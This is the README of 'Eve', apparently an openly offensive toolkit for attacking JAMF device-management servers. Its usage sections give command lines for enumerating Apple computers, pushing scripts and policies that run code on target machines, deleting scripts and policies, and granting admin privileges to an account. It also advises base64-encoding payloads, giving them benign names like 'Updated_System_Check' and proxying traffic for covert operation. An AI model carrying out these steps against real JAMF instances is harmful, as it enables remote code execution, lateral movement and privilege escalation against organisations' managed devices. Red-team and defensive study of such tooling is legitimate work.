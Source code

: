 # Eve
<p align="center" width="100%">
    <img align="middle" src="/images/Eve.png" width=35% height=35%/>
</p>

## Overview
Eve is a JAMF exploitation toolkit used to interact with either cloud hosted JAMF tenants or locally hosted JAMF servers using various API calls. To use this toolkit credentials for an account registered with the JAMF instance that has API access will be required. This tooling automates attacks that my team and I have performed successfully to exploit JAMF access to enumerate Apple devices as well as execute code in varying contexts to laterally move to different systems. The intended user for this toolkit should already have some awareness about JAMF API permissions to know how to best leverage their access. For those trying to discover what can be done I recommend starting <a href="https://developer.jamf.com/jamf-pro/docs/classic-api-minimum-required-privileges-and-endpoint-mapping">here</a>.

## Requirements
1. Python3
2. A unix system capable of executing the embedded scripts with curl (to be converted to Python modules in the future).
3. <a href="https://github.com/rofl0r/proxychains-ng">proxychains</a> (this tooling was originally written to be proxied through systems to internal JAMF servers for covert red teaming, will be changed to optional parameter in the future).
4. <a href="https://jqlang.org">jq</a> for parsing JSON output of searches or log queries

## Setup
```
# Setup /etc/proxychains.conf to use proxied system or alias proxychains command to a benign action

git clone https://github.com/RobotOperator/Eve.git
cd Eve

#Get initial token using API username and password, basic authentication string, or an already obtained Bearer token
#API port is usually either 443 or 8443 for local instances

python3 token_ApplePy.py --username api_admin --password 'my_pass123!@#' --jamf_server https://test.jamfcloud.com --api_port 443
```

## Usage
### Enumerating Computers
```
#Searching for computers with ADM_ the same as a simple search in the GUI
python3 search_ApplePy.py --jamf_server https://test.jamfcloud.com --api_port 443 --search_string "ADM_"

#Get computer details with UDID
./computer_details_by_id.sh <JAMFURL:PORT> <Bearer Token> <Computer ID>
./computer_details_by_id.sh https://test.jamfcloud.com:443 'eyxxx' 1029
```
### Scripts
```
#Get script contents by script id
./get_script_contents.sh <JAMFURL:PORT> <Bearer Token> <Script ID>
./get_script_contents.sh https://test.jamfcloud.com:443 'eyxxx' 29

#Push new script to the JAMF server, requires the source script to have quotes escaped/prepped. Highly recommend base64 encoding scripts and decoding the content to be executed
./push_script.sh <JAMFURL:PORT> <Bearer Token> <Path to Script> <New Script Name>
./push_script.sh https://test.jamfcloud.com:443 'eyxxx' ~/Eve/script6.txt 'Updated_System_Check'

#Delete scripts by id
./delete_script_by_id.sh <JAMFURL:PORT> <Bearer Token> <Script ID>
./push_script.sh https://test.jamfcloud.com:443 'eyxxx' 29
```
### Policies
```
#Delete policy by id
python3 policy_Applepy.py --bearer_token 'eyxxxx' --jamf_server https://test.jamfcloud.com --action delete --policy_id 493 --api_port 443

#Push new policy to execute scripts on target computers specified by ids, update computer ids embedded within the zsh script for now
./push_policy.zsh <JAMFURL:PORT> <Bearer Token> <Script ID to Execute> <New Policy Name>
./push_policy.zsh https://test.jamfcloud.com 'eyxxxx' 29 'New_Compliance_Policy'

#Retrive policy logs for a specific computer by supplying the UDID
./policy_logs_by_udid.sh <JAMFURL:PORT> <Bearer Token> <Computer UDID>
./policy_logs_by_udid.sh https://test.jamfcloud.com 'eyxxxx' AB5XDXXXX
```
### Privileges
```
#Update privileges of a target account id, admin.xml serves as a template for granting admin privileges and is statically specified in script
./update_privileges.sh <JAMFURL:PORT> <Bearer Token> <Account ID>
./update_privileges.sh https://test.jamfcloud.com 'eyxxxx' 285
```

## Planned Work
1. Python Conversions of Scripts
2. Make proxychains an optional parameter
3. JAMF descriptor scripts
4. Automating backup profiles
5. Automating PKG deployments when enabled

## Contributors
<a href="https://github.com/MayerDaniel">Daniel Mayer</a>


